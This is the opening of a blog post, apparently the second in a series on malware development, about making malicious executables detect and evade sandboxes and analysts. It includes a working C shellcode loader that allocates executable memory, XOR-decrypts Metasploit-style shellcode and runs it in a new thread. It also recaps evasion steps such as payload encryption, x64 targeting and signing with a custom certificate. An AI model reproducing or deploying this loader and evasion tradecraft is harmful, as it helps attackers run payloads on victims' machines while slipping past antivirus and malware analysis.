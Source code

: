 ```yaml
---
title: Malware development part 2 - anti dynamic analysis & sandboxes
layout: post
---
```


## Introduction
This is the second post of a series which regards development of malicious software. In this series we will explore and try to implement multiple techniques used by malicious applications to execute code, hide from defenses and persist.  
Previously, we've created basic Metasploit shellcode launcher in C++ and explored basic techniques which helped to lower detection rate of the compiled executable - payload encoding/encryption, binary signing with custom code-signing certificate and switching to x64 architecture.  
Now let's dive deep into dynamic analysis and how to defend against it.

Note: we assume 64-bit execution environment - some code samples may not work for x86 applications (for example due to hardcoded 8-byte pointer length or different data layout in PE and PEB). Also, error checks and cleanups are ommited in the code samples below.

## Dynamic analysis of malware
Dynamic analysis of an executable may be performed either automatically by a sandbox or manually by an analyst. Malicious applications often use various methods to fingerprint the environment they're being executed in and perform different actions based on the situation.

Automated analysis is performed in a simplified sandbox environment which may have some specific traits, particularly it may not be able to emulate all nuances of the real environment. Manual analysis is usually  performed in a virtualized environment and specific additional tools may be encountered (debugger, other analytic software).

Both automated and manual analysis have common characteristics, in particular they are usually performed in a virtualized environment which can be easily detected if not configured (hardened) properly. Most sandbox/analysis detection techniques revolve around checking specific environment attributes (limited resources, indicative device names) and artifacts (presence of specific files, registry keys).

However there are several specific detections for automated sandboxes and other specific for virtual environments used by malware analysts.

### Testing detection
We will use the piece of code from [Malware development part 1](../Malware_development_part_1) which injects XOR-decrypted shellcode into newly allocated memory block and executes it:
```c
void main()
{
	const char shellcode[] = "\xc9\x7d\xb6 (...) ";
	PVOID shellcode_exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	RtlCopyMemory(shellcode_exec, shellcode, sizeof shellcode);
	DWORD threadID;
	for (int i = 0; i < sizeof shellcode; i++)
	{
		((char*)shellcode_exec)[i] = (((char*)shellcode_exec)[i]) ^ '\x35';
	}
	HANDLE hThread = CreateThread(NULL, 0, (PTHREAD_START_ROUTINE)shellcode_exec, NULL, 0, &threadID);
	WaitForSingleObject(hThread, INFINITE);
}
```
To bypass some static detections, the application targets x64 architecture and is signed with a custom certificate.
